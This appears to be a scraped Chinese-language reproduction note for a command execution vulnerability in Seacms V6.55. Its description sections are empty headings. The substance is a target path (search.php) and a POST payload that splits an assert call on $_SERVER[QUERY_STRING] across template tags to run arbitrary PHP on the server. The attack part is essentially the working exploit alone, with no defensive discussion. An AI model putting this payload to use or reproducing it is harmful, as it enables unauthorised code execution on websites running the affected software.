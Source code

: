 # Seacms V6.55

> 原文：[https://www.zhihuifly.com/t/topic/3116](https://www.zhihuifly.com/t/topic/3116)

# Seacms V6.55 命令执行漏洞

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

> path:

```
http://0-sec.org/search.php 
```

> POST:

```
searchtype=5&searchword={if{searchpage:year}&year=:as{searchpage:area}}&area=s{searchpage:letter}&letter=ert{searchpage:lang}&yuyan=($_SE{searchpage:jq}&jq=RVER{searchpage:ver}&&ver=[QUERY_STRING]));/* 
```